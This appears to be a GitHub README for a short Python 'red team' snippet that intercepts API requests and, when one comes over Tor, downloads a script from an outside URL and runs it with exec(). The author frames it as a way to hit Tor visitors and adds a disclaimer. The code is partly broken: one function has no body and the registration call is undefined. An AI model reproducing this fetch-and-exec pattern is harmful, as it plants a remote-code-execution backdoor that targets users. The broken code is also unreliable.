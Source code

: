 # Feuerteufel Logic
###### RedTeam Script Examples (EDU) by Volkan Sah - simple codings for 'Offensive Security' (updated 5/2023)

A creative small Python script that intercepts API requests and, when accessed through the Tor network, loads and runs an external script from a specified URL to Fuck them!
However, keep in mind that this is a highly risky and potentially illegal activity. Use at your own risk and only against crime and child abuse!
##Sorry cant explane all or you know what can be!

## WARNING: READ CAREFULLY! !!! DANGER !!!
This Black Python script example is intended for use by security professionals and developers only. It is not intended for malicious purposes, and I cannot be held responsible for any misuse of this code. If you use this tool for illegal or unethical purposes, you alone will be held responsible for any consequences that may arise, including legal and ethical issues.

Please see [SherlocksHome](https://github.com/VolkanSah/SherlocksHome/) to custumize your logic

```python
import requests

def intercept_api_requests(request):
    if check_if_accessed_over_tor(request):
        external_script_url = "https://example.com/external_script.py"
        response = requests.get(external_script_url)
        if response.status_code == 200:
            exec(response.text)
        else:
            print("Failed to load the external script.")

def check_if_accessed_over_tor(request):
    # Implement your logic to detect if the request is coming from the Tor network
    # This might involve inspecting the request headers or analyzing network traffic
    # Be aware that attempting to bypass security measures is likely illegal and unethical

# Register the interceptor function to intercept API requests
register_interceptor(intercept_api_requests)
```

## issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

### Thank you for your support!
- If you appreciate my work, please consider [becoming a 'Sponsor'](https://github.com/sponsors/volkansah), giving a :star: to my projects, or following me. 
### Copyright
- [VolkanSah on Github](https://github.com/volkansah)
- [Developer Site](https://volkansah.github.io)
